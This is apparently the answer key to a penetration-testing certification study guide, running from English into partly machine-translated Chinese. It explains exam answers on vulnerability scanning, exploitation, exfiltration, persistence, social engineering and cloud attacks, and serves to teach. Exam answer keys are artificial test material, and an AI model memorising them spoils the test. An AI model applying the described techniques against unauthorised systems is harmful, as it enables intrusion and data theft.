Internet of Things (IoT) devices are examples of nontraditional systems that may be fragile and highly susceptible to failure during vulnerability scans. Web servers and firewalls are typically designed for exposure to wider networks and are less likely to fail during a scan.

### 12. B

The organization's risk appetite is its willingness to tolerate risk within the environment. If an organization is extremely risk-averse, it may choose to conduct scans more frequently to minimize the amount of time between when a vulnerability comes into existence and when it is detected by a scan.

### 13. D

Scan schedules are most often determined by the organization's risk appetite, regulatory requirements, technical constraints, business constraints, and licensing limitations. Most scans are automated and do not require staff availability.

### 14. B

Adam is conducting static code analysis by reviewing the source code. Dynamic code analysis requires running the program, and both mutation testing and fuzzing are types of dynamic analysis.

### 15. C

Ryan should first run his scan against a test environment to identify likely vulnerabilities and assess whether the scan itself might disrupt business activities.

### 16. C

Although reporting and communication are an important part of vulnerability management, they are not included in the life cycle. The three life-cycle phases are detection, remediation, and testing.

### 17. A

Continuous monitoring incorporates data from agent-based approaches to vulnerability detection and reports security-related configuration changes to the vulnerability management platform as soon as they occur, providing the ability to analyze those changes for potential vulnerabilities.

### 18. B

Systems have a moderate impact from a confidentiality perspective if the unauthorized disclosure of information could be expected to have a serious adverse effect on organizational operations, organizational assets, or individuals.

### 19. A

The Common Vulnerability Scoring System (CVSS) provides a standardized approach for measuring and describing the severity of security vulnerabilities. Jessica could use this scoring system to prioritize issues raised by different source systems.

### 20. B

Penetration testers should always consult the statement of work (SOW) for guidance on how to handle situations where they discover critical vulnerabilities. The SOW may require reporting these issues to management immediately, or it may allow the continuation of the test exploiting the vulnerability.

## Chapter 5: Analyzing Vulnerability Scans

### 1. B

Although the network can support any of these protocols, internal IP disclosure vulnerabilities occur when a network uses Network Address Translation (NAT) to map public and private IP addresses but a server inadvertently discloses its private IP address to remote systems.


2.  C. 所需权限（PR）向量描述了攻击者是否需要无用户权限、普通用户权限或管理员用户权限才能发起攻击。本题中描述的其他向量包括攻击向量（AV）、攻击复杂度（AC）和机密性（C）向量。它们不会包含有关用户身份验证的信息。

3.  C. 访问复杂度为“低”表示利用漏洞不需要任何特殊条件。值为“高”表示需要特殊条件。高和低是该度量的唯二可能值。

4.  C. 如果这些措施中有任何一项标记为 H（即高），则表示系统可能被完全攻破。

5.  D. CVSS 3.0 版本当前可用，且为本章所述版本。

6.  B. CVSS 可利用性评分是使用攻击向量、攻击复杂度、所需权限和用户交互度量计算得出的。

7.  B. CVSS 基础评分在 4.0 到 6.9 之间的漏洞属于中危等级类别。

8.  A. 当漏洞扫描器报告实际不存在的漏洞时，就会发生误报错误。

9.  B. 数据库表不太可能包含与评估漏洞扫描报告相关的信息。日志、SIEM 报告和配置管理系统更有可能包含相关信息。

10.  A. Microsoft 已停止对 Windows Server 2003 的支持，该操作系统很可能包含无法修补的漏洞。此处列出的其他操作系统均处于活跃支持状态。

11.  D. 当攻击者操纵程序将更多数据放入分配给该程序使用的内存区域时，就会发生缓冲区溢出攻击。其目的是用可由系统上不同进程执行的指令覆盖内存中的其他信息。

12.  B. 2016 年 10 月，安全研究人员宣布发现了一个名为 Dirty COW 的 Linux 内核漏洞。该漏洞存在于 Linux 内核中长达九年，利用极其容易，并使成功的攻击者获得受影响系统的管理控制权。

13.  D. Telnet 是一种不安全的协议，不使用加密。此处提到的其他协议均被认为是安全的。

14.  D. TLS 1.3 是一种支持 Web 流量的安全传输协议。此处列出的其他协议均存在使其不安全且不适用的缺陷。

15.  B. 数字证书旨在提供公共加密密钥，这不会导致错误。其他情况均属于令人担忧的原因，并在漏洞扫描期间触发警报。

16.  D. 在虚拟化数据中心中，虚拟主机硬件运行一种称为 hypervisor 的特殊操作系统，用于中介访问底层硬件资源。

17.  A. VM escape 漏洞是虚拟化环境中可能存在的最严重问题，尤其是当虚拟主机运行安全级别不同的系统时。在逃逸攻击中，攻击者能够访问单个虚拟主机，然后利用该访问权限入侵分配给不同虚拟机的资源。

18.  B. 入侵检测系统（IDSs）是一种用于检测网络或主机攻击的安全控制。物联网（IoT）、监控控制与数据采集（SCADA）系统和工业控制系统（ICS）均与将物理世界对象连接到网络相关。

19.  D. 在跨站脚本（XSS）攻击中，攻击者将脚本命令嵌入网站，这些命令将由后来访问该网站的毫无戒心的访问者执行。其目的是诱骗访问可信网站的用户执行由不可信第三方放置的恶意代码。

20.  A. 在 SQL 注入攻击中，攻击者试图使用 Web 应用程序访问底层数据库。分号和单引号是这类攻击的特征。

### 第 6 章：利用与横向移动

1.  B. TCP 445 是通常与 SMB 服务相关联的服务端口。

2.  A. Ruby on Rails 漏洞是唯一明确提到远程代码执行的漏洞，这最有可能让 Charles 获得对系统的访问权限。

3.  B. OpenSSH 漏洞明确指出它允许用户枚举，因此这是 Charles 想要完成的事情的最佳选择。

4.  C. Metasploit 搜索支持多种常见的漏洞标识符系统，包括 CVE、BID 和 EDB，但 MSF 是本题编造的。它可能听起来很熟悉，因为 Metasploit 控制台命令是 `msfconsole`。

5.  A. Matt 可以安全地假设几乎任何现代 Linux 系统都会有 SSH，因此 SSH 隧道是一个合法的选项。如果他从受攻破系统向外连接到自己的系统并创建一个允许流量进入的隧道，他可以通过隧道使用自己的漏洞扫描器访问远程系统。

6.  C. Fred 使用计划任务工具设置了从用户目录每周在上午 9 点运行 `av.exe`。在这个示例中，可以合理假设 Fred 已经获得了对 SSmith 用户目录的访问权限，并将他自己的 `av.exe` 文件放在那里，试图在管理员发现它时使其看起来无害。

7.  B. 在大多数 Linux 系统中，`/etc/passwd` 文件将包含用户列表以及他们的主目录。捕获 `/etc/passwd` 和 `/etc/shadow` 对密码破解都很重要，因此两者都是渗透测试人员理想的目标。

8.  C. Meterpreter 是一种驻留内存的工具，它将自身注入另一个进程。最可能的答案是系统重启了，从而移除了驻留内存的 Meterpreter 进程。Robert 可以简单地重复他的利用程序以重新获得访问权限，但他可能希望采取额外措施以确保持续访问。

9.  C. 对数据进行编码会使入侵防御和数据丢失防护系统不太可能识别获取的数据，这意味着编码是一种有用的技术。将数据发送到像 GitHub 这样的公共存储库，比内部系统向先前未知的系统开启 SSH 隧道更不容易看起来异常。使用 HTTP 而不是 HTTPS 发送数据将使防御者对外发送的未编码数据的检查变得微不足道，而对数据进行哈希处理则不会使其在到达时保持可恢复状态。

10.  C. 无文件恶意软件与利用本机工具和实用程序的“活用本地资源”技术相结合，将帮助 Ian 确保他满足他正在进行的渗透测试的交战规则。即使清理文件也会违反这些规则，这意味着 Ian 不应该添加工具，即使他有信心在完成后能够清理它们。Metasploit dropper 会留下文件，这意味着使用该方案的两个答案都不符合要求。

11.  B. Tina 可能想尝试暴力破解字典攻击来测试弱密码。她应该为目标组织构建自定义字典，并且她可能想提前进行一些社会工程学工作或社交媒体评估，以帮助她识别组织成员倾向于表现出的任何常见密码选择行为。

12.  C. PSRemote，或 PowerShell Remote，提供来自远程系统的命令行访问。一旦使用有效凭据建立远程信任关系，您就可以使用 PowerShell 命令进行各种利用和信息收集活动，包括使用专用的 PowerShell 利用工具。


13. A. Windows 任务计划程序用于计划任务。在 Linux 上，cron 作业被设置为按时启动应用程序和其他事件。创建对 Linux 系统持久访问的其他常见方式包括修改系统守护进程、用木马版本替换服务，甚至简单地创建供日后使用的用户帐户。

14. D. Metasploit 需要知道远程目标主机，即 `rhost`，但未设置。Tim 可以通过输入 `set rhost [` `ip address` `]` 并使用正确的 IP 地址来设置它。某些负载还需要设置 `lhost`（本地主机），因此在运行漏洞利用之前使用 `show options` 命令是个好主意。

15. B. Cameron 已启用 PowerShell 远程访问（即 PSRemoting），并将其配置为允许使用基本身份验证的非加密会话。任何发现此配置的 Windows 管理员都应该感到担忧！

16. A. 虽然这可能看起来很奇怪，但尽早利用信息收集漏洞可以帮助为其他漏洞利用提供有用信息。此外，大多数信息收集漏洞留下的痕迹很少，并可提供服务配置和用户帐户的信息，使其在如所述场景等情况下成为非常有用的工具。

17. B. Annie 正在使用密码喷洒攻击，该攻击将同一密码用于多种帐户，然后尝试系列中的下一个密码，继续对所有目标帐户使用列表中的每个密码。Firehose 和克隆密码攻击是为此问题编造的，而传递哈希攻击使用捕获的哈希来尝试使用现有会话。

18. C. Metasploit 的 SMB 捕获模式、Responder 和 Wireshalk 都可以从广播中捕获 SMB 哈希。Impacket 不内置此功能，但提供一系列相关工具，包括在捕获哈希后使用哈希进行身份验证的功能。如果你想知道考试中是否会遇到此类问题，请记住排除你确定的答案以减少剩余选项的数量。在这里，你可能会猜到 Metasploit 为此有模块，而 Wireshark 是一个数据包捕获工具，因此捕获广播流量可能需要一些工作，但仍然是可能的。现在你只剩下 50/50 的机会了！

19. A. BloodHound 读取 Active Directory 林或树数据并显示，允许渗透测试人员可视化数据并通过查找特权帐户等元素来分析它。它不会捕获加密的网络流量、可视化网络流，也不会在共享驱动器上搜索加密文件。

20. C. PCI-DSS 网络分段评估通常侧重于确保流量无法从较低安全级别的段进入较高安全级别的段。因此，Ben 将验证防止此情况的防火墙规则。ISP 连接上的干线和物理分段测试不是此类项目的常见测试，反恶意软件工具更可能搜索恶意软件，而不是在网络段之间应用不同的规则。

#### 第 7 章：利用网络漏洞

1. B. Kismet 专门设计为无线入侵检测系统，除其他无线数据包捕获功能外。WiFite 专为无线网络审计设计。Aircrack-ng 提供多种攻击工具，除其用于无线流量的捕获和注入功能外。SnortiFi 是为此问题编造的。

2. C. 如果 NAC 系统仅依赖 MAC 过滤，Chris 只需确定受信任系统的硬件地址。这可能只需查看笔记本电脑或台式机上的标签即可获得，或者他可能能够通过社会工程或技术方法获取它。

3. A. Aircrack-ng 内置了伪 AP 功能，带有工具可让 Chris 识别有效接入点、克隆它们、使目标系统解关联，然后允许中间人攻击。

4. A. Chris 可以使用 ARP 欺骗将其工作站表示为其他设备正在尝试连接的合法系统。只要他的响应更快，他就会接收流量并可以进行中间人攻击。网络嗅探在之后有助于读取流量，但在交换网络上，它本身对大多数流量并不有用。SYN 洪水攻击对于获取凭证没有用处，因此选项 C 和 D 都不正确。

5. D. 交换机欺骗依赖于配置为动态可取、动态自动或干线模式的交换机接口，允许攻击者生成动态干线协议消息。攻击者随后可以访问所有 VLAN 的流量。

6. C. 蓝骚扰是一种尝试通过蓝牙发送未请求消息的攻击技术。蓝窃取试图窃取信息，而蓝狙击是长距离蓝牙攻击的术语。截至撰写本文时，蓝发送不是用于蓝牙攻击的常见术语。

7. B. 仙女粉攻击使用暴力破解来识别易受攻击的 WPS 启用路由器的密钥，原因是密钥选择不当。其他选项均为编造。

8. C. NFC 通信发生在非常短的距离，允许发生“轻触”。这意味着 Michelle 需要将捕获设备放置在通信非常近的地方，或者她需要专门的功能来尝试在更长距离捕获流量。加密可能使读取流量变得困难，但不会阻止拦截。传输持续时间和协议版本可能会增加复杂性，但需要记住的关键是 NFC 是一种非常短距离的协议。

9. D. Mariana 正在进行密码喷洒攻击。密码喷洒攻击将相同的凭据用于许多系统，然后尝试下一个凭据对。哈希破解试图识别导致给定捕获哈希的原始密码。字典攻击使用单词列表和一组规则来修改这些单词以尝试暴力破解攻击。暴力破解攻击涉及使用算法或过程反复尝试登录。当此类问题有多个可能正确的答案时，请记住选择最具体的答案，而不是宽泛的答案。

10. A. FTP 是一种未加密协议，这意味着 Steve 可以在下次用户从目标系统登录 FTP 服务器时简单地捕获 FTP 流量。暴力破解攻击可能会成功，但更容易被注意到。虽然可能存在漏洞利用，但问题未提及，即使存在，也不一定会提供凭据。最后，降级攻击对 FTP 服务器没有用处。

11. C. Netcat 是列表中唯一可用作反向 shell 的工具。它还可用于基本端口扫描和各种其他网络攻击及测试目的。Aircrack-ng 用于网络渗透测试，nmap 是端口扫描器，Censys 是可用于开源情报工作的搜索引擎。

12. A. 使系统取消身份验证会导致重新身份验证，从而创造捕获目标握手的可能性。蓝骚扰、网络压力测试和 RFID 克隆攻击都不依赖取消身份验证。

13. B. 与此处列出的其他选项不同，Mimikatz 从本地安全机构子系统服务 (LSASS) 进程中提取哈希。由于问题特别指出“通过网络”，Mimikatz 是唯一不能用于此目的的工具。

14. C. 所有这些工具都是拒绝服务工具。虽然其中一些已被用于 DDoS 攻击，但它们本身并不是 DDoS 工具。

15. D. Mike 正在数据包中使用嵌套标签来尝试跨越 VLAN。如果他成功，他的数据包将被传送到目标系统，但他不会看到任何响应。


### 16. C
冒充目标工作站发送 FIN 和 ACK 将导致连接关闭。如果支持，这将导致目标尝试建立一个不太安全的连接。

### 17. A, D
为了完全执行中间人攻击，Isaac 需要同时欺骗服务器和目标，使它们各自认为他的 PC 是他们正在发送数据的系统。欺骗网关（`10.0.1.1`）或广播地址（`255.255.255.255`）无法达到他的目的。

### 18. B
Windows `net` 命令可以显示关于本地域的大量信息，并且可以使用 `net accounts /domain` 命令审查密码策略。

### 19. B
Cynthia 的响应需要在合法 DNS 服务器之前到达。如果她的时机不对，合法响应将被接受。

### 20. A
低频 RFID 卡通常用于门禁卡，并且可以使用廉价的通用克隆设备轻松克隆。400 到 451 KHz 范围内的中频卡不存在，而高频卡更有可能使用手机的 NFC 功能进行克隆。超高频卡标准化程度较低，使得克隆更加复杂。

#### Chapter 8: Exploiting Physical and Social Vulnerabilities

### 1. C
鲸钓是一种专门针对重要领导和高级员工的网络钓鱼形式。如果 Cynthia 是专门针对个人，那将是鱼叉式网络钓鱼。Smishing 使用短信，而 VIPhishing 是为本问题编造的。

### 2. B
安全门禁间每次只允许一个人通过，两端的门一次只能解锁和打开一扇。除非员工故意疏忽，否则它将防止大多数尾随行为。

### 3. D
大多数组织继续使用 RFID 或磁条技术作为门禁卡，这使得渗透测试人员的工作更容易，因为这两种技术都可以被克隆。如果正确实施，智能卡则更难克隆。

### 4. A
Jen 正在冒充一名行政助理。审讯技术更具侵略性，并有可能使目标产生防御心理或意识到自己正在接受审讯。肩 surfing 是指从某人肩膀上方查看以获取信息的过程，而 administrivia 不是渗透测试术语。

### 5. B
浏览器利用框架（BeEF）专门为此类攻击设计。Jen 可以使用它轻松地将浏览器利用工具部署到恶意网站，然后可以使用各种网络钓鱼和社会工程学技术诱导 Flamingo 员工访问该网站。

### 6. B
Jen 应该使用感染性介质生成器工具，该工具旨在创建可以在现场丢弃供员工拾取的拇指驱动器和其他介质。Teensy USB HID 攻击模块可能是一个诱人的答案，但它旨在让 Teensy（一种类似 Arduino 的微型计算机）充当键盘或其他人机接口设备，而不是创建感染性介质。创建网站攻击或大量邮件攻击不是 USB 密钥投放的一部分。

### 7. B
Chris 正在进行鱼叉式网络钓鱼攻击。鱼叉式网络钓鱼攻击针对特定个人。如果 Chris 正在针对一群重要个人，那可能是鲸钓攻击。CEO 饵饵、钓鱼钩和 Hook SETting 都是为本问题编造的。

### 8. C
Frank 遇到了 vishing 攻击，这是一种通过电话进行的攻击，通常依赖于权威性和紧迫性的感知来从目标处获取信息。鱼叉式网络钓鱼攻击针对特定个人或群体，而鲸钓攻击针对 VIP——问题中都没有表明这一点。攻击是通过语音进行的，而不是短信，因此该选项也被排除。

### 9. D
Emily 可以尝试垃圾桶搜索。组织的垃圾桶可能是关于组织、其员工及其当前运营的信息宝库，基于被丢弃的文档和文件。她甚至可能发现整台电脑或被丢弃的介质！

### 10. D
鱼叉式网络钓鱼针对特定人群，在此案例中是行政助理。鲸钓针对 VIP，vishing 通过电话进行，而水坑攻击利用经常访问的网站或应用程序。

### 11. C
社会认同依赖于说服个人，让他们相信自己可以以他们认为他人采取的方式行事。社会认同场景可能涉及向目标解释，在特定情况下共享密码在员工中很常见，或者不带身份证件让其他员工进入安全门是常见做法。

### 12. C
RFID 徽章是无线的，有时可以在几英尺外被克隆。磁条卡需要使用磁条读卡器读取，智能卡提供额外的安全性使其难以克隆，而 CAC 卡是美国政府的智能卡实现。

### 13. B
Allan 正在使用借口来获得组织的访问权限。声称自己是需要特定签名的送货人员可能会让他越过组织的初始安全防线。他没有声称特定权威，没有提供他人允许他进入的社会认同，也没有声称自己与安保人员或接待员相似。

### 14. A
在进行社会工程尝试时，稀缺性可以是一种强大的动力。Charles 发送的电子邮件将使用有限数量的现金奖励来激励受访者。如果他添加了“前五名”，他还将针对紧迫性，紧迫性通常与稀缺性结合以提供额外动力。

### 15. C
以物换物尝试依赖于社会工程师提供具有感知价值的东西，以便目标会感到欠他们的人情。然后目标被要求执行某个动作，或者以其他方式做渗透测试人员希望他们做的事情。

### 16. D
Andrew 已经使用了水坑攻击，但他也可能犯了一个关键错误。在当地许多（或更远！）人访问的第三方网站上放置恶意软件可能超出了他的接触范围，并且很可能是非法的。更好的计划应该是针对由公司本身拥有和运营，并且仅由内部员工访问的资源。

### 17. C
一旦渗透测试人员被抓住，他们的第一反应应该是提供他们的借口。此时成功的社会工程尝试可以挽救渗透测试尝试。如果这不起作用，拨打组织联系人以获得“免罪金牌”式的响应可能是在困难情况下的唯一选择。

### 18. A
USB 密钥投放有时被称为物理蜜罐。它们诱使员工将未知设备插入他们的计算机，而训练有素且多疑的员工不应该这样做。剩余的选项都是为本问题编造的。

### 19. B
Susan 正在使用互惠概念来说服员工，认为他们应该执行对她有利的行动，因为她为他们做了一件好事。

### 20. C
肩 surfing 有多种形式，包括观看员工输入门禁代码。Setec Astronomy 是对优秀黑客电影《Sneakers》的引用，代码监视和键盘捕获都是为本问题编造的。

#### Chapter 9: Exploiting Application Vulnerabilities

### 1. B
输入白名单方法定义用户可以提供的特定输入类型或范围。当开发人员可以编写清晰的业务规则来定义允许的用户输入时，白名单绝对是防止注入攻击最有效的方法。

### 2. D
Web 应用程序防火墙必须放置在 Web 服务器前面。这排除了位置 C 作为选项。下一个考虑因素是放置 WAF，使其可以过滤所有指向 Web 服务器的流量，同时看到最少量的无关流量。这使得位置 D 是放置 WAF 的最佳选项。


3. A. 使用 SQL `WAITFOR` 命令是基于时间的 SQL 注入攻击的标志性特征。

4. A. `system()` 函数在应用程序内部针对操作系统执行命令字符串，可能被用于命令注入攻击。

5. D. 渗透测试人员在试图获取单个用户账户的访问权限时，可能会使用各种各样的来源。这些来源可能包括针对单个用户实施社会工程攻击、从先前被攻破的网站获取密码转储、获取默认账户列表以及实施密码破解攻击。

6. B. TGT 非常有价值，并且可以创建延长的生命周期。当攻击者成功获取 TGT 时，这些 TGT 通常被称为“黄金票据”，因为它们允许完全访问 Kerberos 连接的系统，包括创建新票据、账户更改，甚至伪造账户或服务。

7. B. 网站使用 HTTP Cookie 来随时间维护会话。如果温迪能够获取用户会话 Cookie 的副本，她可以使用该 Cookie 来冒充用户的浏览器并劫持经过身份验证的会话。

8. D. 未经验证的重定向会指示 Web 应用程序在事务结束时将用户重定向到任意站点。这种方法非常危险，因为它允许攻击者通过用户信任的合法站点将用户发送到恶意站点。谢里应当限制重定向，使其仅在其受信任的域内发生。

9. C. 此查询字符串表明是参数污染攻击。在这种情况下，攻击者似乎正在发起 SQL 注入攻击，并试图使用参数污染将攻击绕过内容过滤技术。查询字符串中两个 `serviceID` 参数的实例表明是参数污染尝试。

10. A. 成千上万个递增变量的请求系列表明，攻击者很可能试图利用不安全的直接对象引用漏洞。

11. C. 在这种情况下，`..` 操作符是攻击者试图实施目录遍历攻击的明显迹象。此特定攻击试图突破 Web 服务器的根目录并访问服务器上的 `/etc/passwd` 文件。

12. C. XSRF 攻击的工作原理是基于这样一个合理的假设：用户通常同时登录到许多不同的网站。攻击者随后在一个网站中嵌入代码，该代码向第二个网站发送命令。

13. D. 基于 DOM 的 XSS 攻击将攻击代码隐藏在文档对象模型中。查看页面 HTML 源代码的人无法看到此代码。其他 XSS 攻击会在浏览器中留下可见痕迹。

14. C. 时间检查到时间使用（TOCTTOU 或 TOC/TOU）问题是一种竞争条件，当程序在资源请求之前过早地检查访问权限时会发生。

15. A. 代码签名为开发人员提供了一种向最终用户确认其代码真实性的方法。开发人员使用加密函数使用自己的私钥对代码进行数字签名，然后浏览器可以使用开发人员的公钥来验证该签名，并确保代码合法且未被未经授权的个人修改。

16. A. 交互式反汇编器（IDA）是一种商业调试工具，适用于 Windows、Mac 和 Linux 平台。OllyDbg 和 Covenant 是 Windows 特定工具，而 GNU 调试器（GDB）是一种广泛使用的开源调试器，适用于 Linux 并支持多种编程语言。

17. B. ZAP 是由开放 Web 应用程序安全项目（OWASP）开发的拦截代理。ZAP 的用户可以拦截从任何 Web 浏览器发送的请求，并在将其传递给 Web 服务器之前对其进行修改。

18. A. API 使用可以通过为合法用户分配唯一的 API 密钥来限制，这些密钥授予他们访问权限，但受其自身授权约束和带宽限制的约束。

19. B. GDB 是一种广泛使用的开源调试器，适用于 Linux 平台。WinDbg 和 OllyDbg 也是调试器，但仅适用于 Windows 系统。SonarQube 是一种持续安全评估工具，而不是调试器。

20. C. 此 URL 包含作为参数传递给 Web 应用程序的本地文件地址。这很可能是本地文件包含漏洞利用，试图执行测试人员先前上传到服务器的恶意文件。

### 第 10 章：攻击主机、云技术和专用系统

1. B. 客户单词列表生成器（CeWL）是一种旨在爬取网站，然后使用其发现的文件和网页构建单词列表的工具。然后可以使用该单词列表来帮助密码破解。

2. B. 最实际的答案是攻破底层虚拟化管理程序的管理界面。虽然 VM 逃逸将是一个有用的工具，但发现的 VM 逃逸漏洞利用非常少，并且每个都已被迅速修补。这意味着渗透测试人员不能依赖在遇到 VM 主机时有一个可用且未修补的漏洞，而应改为针对管理权限和访问方法。

3. B. 杰夫正在准备直接到源攻击，该攻击针对负载均衡器、CDN 或其他类似系统背后的底层系统或资源。如果他能创建拒绝服务条件，前端网络或系统将无法从中获取更新或数据，从而使他能够绕过负载均衡器或内容分发网络提供的保护和弹性。大多数云环境中的侧信道攻击将侧重于利用处于同一物理硬件上的优势。联合配置错误攻击试图利用两个组织之间的联合链接中的不安全配置，而元数据服务攻击利用云提供商提供的原生服务，这些服务旨在允许轻松查询其环境中运行的系统的主机名、IP 地址或其他元数据。

4. C. 虽然 IoT 设备可能会因使用不安全的协议或数据存储而泄露数据，但这对防御者来说是一个问题。渗透测试人员应积极寻找这种机会！克莱尔知道 IoT 设备在扫描或被攻破时可能会失败，并且这可能会造成问题。它们也可能是脆弱环境的一部分，该环境可能未设计为处理扫描，或者延迟响应或停机可能会对她的客户造成问题。她还知道，如果设备由于渗透测试而表现不正常，可能会发生数据损坏，并且在 IoT 数据至关重要的环境中，这可能是一个真正的问题。克莱尔应仔细与她的客户讨论此事，并确保他们了解风险以及如果测试 IoT 设备对渗透测试很重要，如何限制这些风险。

5. D. Web 应用程序攻击和审计框架（w3af）是一种 Web 应用程序测试和漏洞利用工具，可以爬取网站并测试可能存在的应用程序和其他安全问题。Paros 代理是一种出色的 Web 代理工具，通常由 Web 应用程序测试人员使用，但它不像 w3af 那样是一个功能齐全的测试套件。CUSpider 和其他版本的 Spider 是用于在系统上查找敏感数据的工具，而 Patator 是一种暴力破解工具。

6. B. 现场设备由远程终端单元（RTU）或可编程逻辑控制器（PLC）控制，这些设备可能会连接到网络并接受来自主站或操作员站的命令。现场设备通常通过 RTU 和 PLC 的数字或模拟命令进行控制，因此不太可能使用正常渗透测试工具支持的协议或访问方法。


7. D. 攻击底层云托管提供商的容器化服务通常被提供商的服务条款禁止，因此不太可能成为针对云托管容器化服务的渗透测试范围的一部分。在容器中运行的应用程序、容器使用的 API 以及它们访问的数据库更有可能成为测试范围的一部分。

8. B. 如果 Jocelyn 想要成功导致拒绝服务（DoS）状况，她最好的选择是直接到源（direct-to-origin）攻击。耗尽服务的源服务器或原始服务器资源，比试图攻击云托管内容分发网络（CDN）的资源更有可能成功。BLE 攻击用于使用蓝牙低能耗模式的设备。IPMI 是用于计算机系统远程管理和监控的一组接口规范，通常不是资源耗尽攻击的目标。如果 Jocelyn 已经攻破了主机并想要获得进一步访问权限，VM 逃逸攻击可能有用，但同样，它不是攻击如文中描述的这类服务的有用方式。

9. B. 暴力破解多因素认证是列表中唯一不是尝试访问云环境的常见方法的项目。多因素认证旨在抵抗暴力破解，这意味着需要其他手段才能访问使用多因素认证的账户。

10. C. Charleen 可以将设备镜像放置在受控沙箱中，并对其进行密码尝试，每次设备擦除自身后重置设备，从而允许她进行多次尝试。她还可以并行运行多个副本，以进行更快的暴力破解尝试。逆向工程用于分析二进制文件和代码，不适合此目的。容器化用于将应用程序放置在虚拟化环境中，彩虹表用于攻击哈希密码，对于此目的也无用。

11. A. 说服用户向系统或设备的证书存储中添加额外证书是列表中唯一有助于击败证书固定（certificate pinning）的选项。如果证书存储不可用且应用程序可用，逆向工程可能有助于确定固定了哪个系统。对象存储安全问题可能提供访问数据或存放数据的位置，但问题中没有任何迹象表明这是可行的解决方案，而数据外泄（data exfiltration）是描述将数据从组织中取出的术语。

12. B. MobSF 是列表中唯一提供静态代码分析功能的工具。Objection 和 Frida 用于 JavaScript 和库注入，Burp Suite 是应用程序测试套件。

13. A. Pacu 是专门用于 AWS 利用和渗透测试的框架。Cloud Custodian 是一个有用的管理工具，可用于识别配置错误，CloudBrute 是云枚举工具，而 BashAWS 是为此问题编造的。

14. C. 旁路信道攻击（Side-channel attacks）试图通过从底层系统或基础设施收集数据，而不是直接从运行中的虚拟系统本身获取数据，来获取其他系统的信息。直接到源攻击（Direct-to-origin attacks）试图识别为内容分发网络或其他缩放服务提供动力的源系统，以便拒绝服务或资源耗尽攻击可以应用于更小、性能较差的目标。水坑攻击（Watering hole attacks）是一种社会工程攻击，利用经常使用的网站作为攻击的一部分来托管恶意软件。对象存储攻击（Object storage attack）关注 AWS 中的 S3 等服务，通常寻找权限设置不当或其他可被利用的缺陷。

15. A. 验证存储桶是否可访问的最简单技术之一，就是直接导航到存储桶的 URL。如果它提供文件列表，则说明存储桶未安全配置。APKX 是 Android APK 提取工具。模糊测试工具（Fuzzers）用于软件测试，而不是用于存储桶安全测试，而直接到源攻击试图绕过内容分发网络、负载均衡器和类似工具，以允许直接针对源系统进行拒绝服务或资源耗尽攻击。

16. C. 凭据收集（Credential harvesting）可以采取多种形式，但最常见的选项之一是使用网络钓鱼攻击获取可用于访问目标组织账户和系统的凭据。仅仅进行漏洞扫描不会导致获取凭据，从共享底层系统上的其他系统捕获数据是旁路信道攻击，不太可能导致获取凭据，SDK 可能提供一些有用信息，但不太可能直接提供凭据。

17. B. 大多数组织认识到 IPMI 接口需要额外保护，并将其放置在数据中心的私有 VLAN 中。额外的访问控制，如 VPN 要求或堡垒主机，也常被使用。IPMI 接口不应暴露在 DMZ 或工作站 VLAN 中，更不用说 Wi-Fi 网络了！

18. D. Patator、Hydra 和 Medusa 都是有用的暴力破解工具。Minotaur 可能是渗透测试工具的一个好名字，但本书作者并不了解任何名为 Minotaur 且被渗透测试人员使用的工具！

19. C. Cameron 已经设置了一个绑定 shell（bind shell），它将 shell 连接到服务端口。反向 shell（reverse shell）会从被攻破的主机向 Cameron 的渗透测试工作站（或 Cameron 有权访问的另一个系统）发起连接。问题没有提供足够的信息来确定 shell 可能是 root shell，而盲 shell（blind shell）不是常见的渗透测试术语。

20. C. Hashcat 在利用强大显卡时速度最快，John the Ripper 通常是列出的密码破解方法中最慢的。CeWL 是单词列表或字典生成器，不是密码破解工具，Rainbow Road 也不是渗透测试工具。

## Chapter 11: 报告与沟通

### 1. D
调查结果证明（An attestation of findings）是渗透测试人员提供的认证，用于记录他们进行了测试以及结果，以用于合规目的。

### 2. A
微软的本地管理员密码解决方案（`LAPS`）提供了一种通过与 Active Directory 集成来随机化本地管理员账户凭据的方法。

### 3. C
渗透测试期间沟通的三个常见触发点是测试阶段完成、发现关键发现以及识别出先前被攻破的指标。

### 4. B
Gary 从这些信息中能得出的唯一结论是，服务器正在提供不必要的服务，因为它正在监听 `SSH` 连接，而它本不应该支持该服务。

### 5. C
密码短语、安全问题和 PIN 码都是基于知识的身份验证示例，当与密码（另一种基于知识的因素）配对时，它们不会提供多因素身份验证。智能手机应用程序是“你所拥有的东西”的示例，是可接受的替代方案。

### 6. D
高管摘要应以易于非专业人士理解的方式编写。它不应包含技术细节。

### 7. A
漏洞修复是后续活动，不作为测试的一部分进行。但是，测试人员应移除测试期间安装的任何 shell 或其他工具，以及移除他们创建的任何账户或凭据。

### 8. C
开展经验教训会议最有效的方法是请中立的第三方担任主持人，让每个人都能自由表达意见。

### 9. C
网络分段是技术控制的示例。基于时间的限制、工作轮换和用户培训都是操作控制的示例。


10. A. `Input sanitization`（也称为输入验证）和参数化查询都是防止 SQL 注入攻击的可接受手段。网络防火墙通常无法防止此类攻击。

11. B. 系统加固应在系统初始构建时以及其生命周期内定期进行。在系统退役前无需进行加固，因为此时系统即将关闭。

12. B. 生物识别身份验证技术使用用户某些物理特征的测量值，例如指纹扫描、面部识别或语音分析。

#### Chapter 12: Scripting for Penetration Testing

1. D. PowerShell 解释器可在所有主要平台上使用，包括 Windows、macOS 和许多流行的 Linux 变体。

2. D. 备考时，你应能识别代码片段中使用的编程语言。`print` 命令用于在 Python 和 Perl 中生成输出。在这两者中，只有 Perl 列为可能的答案选项。

3. B. 备考时，你应能识别代码片段中使用的编程语言。`Write‐Host` 命令用于在 PowerShell 中生成输出。

4. D. Ruby 是一种通用编程语言。它是一种使用脚本而非使用源代码生成可执行文件的编译型语言的解释型语言。

5. D. 必须将用户（所有者）位设置为执行（`x`）才能允许执行 Bash 脚本。`chmod u+x` 命令执行此任务。

6. C. RemoteSigned 策略允许执行在本地机器上编写的任何 PowerShell 脚本，但要求从 Internet 下载的脚本必须由受信任的发布者签名。

7. A. PowerShell 在赋值操作中要求在数组名称前使用 `$`。然后将数组元素作为逗号分隔的列表提供。选项 B 适用于 Bash，选项 C 适用于 Ruby 或 Python。

8. C. `==` 运算符用于测试 Ruby、Python、JavaScript 中的相等性，以及 Perl 中的数值比较。`!=` 运算符用于测试这些语言中的不等式。`‐eq` 运算符用于测试 Bash 和 PowerShell 中的相等性，`‐ne` 运算符用于测试这些语言中的不等式。

9. A. `%20` 值用于使用百分号编码方案对空格进行 URL 编码。

